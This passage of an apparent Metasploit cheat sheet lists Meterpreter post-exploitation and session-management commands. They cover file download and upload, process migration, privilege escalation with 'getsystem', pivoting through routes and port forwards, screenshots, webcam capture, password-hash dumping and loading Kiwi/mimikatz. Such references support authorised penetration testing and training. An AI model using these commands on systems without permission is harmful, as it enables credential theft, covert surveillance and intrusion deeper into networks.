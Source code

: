 ```
meterpreter > help
meterpreter > sysinfo
```

- Filesystem:

```
meterpreter > pwd
meterpreter > ls
meterpreter > cd <dir>
meterpreter > download <file>
meterpreter > upload <file>
meterpreter > edit <file>
```

- Process management:

```
meterpreter > ps
meterpreter > migrate <pid>
meterpreter > getpid
meterpreter > getsystem     # attempt privilege escalation
meterpreter > kill <pid>
```

- Networking / pivoting:

```
meterpreter > ipconfig
meterpreter > route add 10.10.0.0 255.255.0.0 <session-id>
meterpreter > portfwd add -l 8080 -p 80 -r 10.10.10.5
```

- Other useful actions:

```
meterpreter > screenshot
meterpreter > webcam_list; webcam_snap  # if supported by the payload
meterpreter > hashdump    # requires appropriate privileges
meterpreter > load kiwi   # load Kiwi (similar to mimikatz) when available
```

- Note: Some post-exploitation extensions require additional modules or privileges.

---

## Jobs & Sessions Management

```bash
# jobs
msf6 > jobs -l
msf6 > jobs -k <id>

# sessions
msf6 > sessions -l
msf6 > sessions -i <id>      # interact with a session
msf6 > session -i <id>       # alternate alias (depends on version)
meterpreter > background     # background the current session
```

---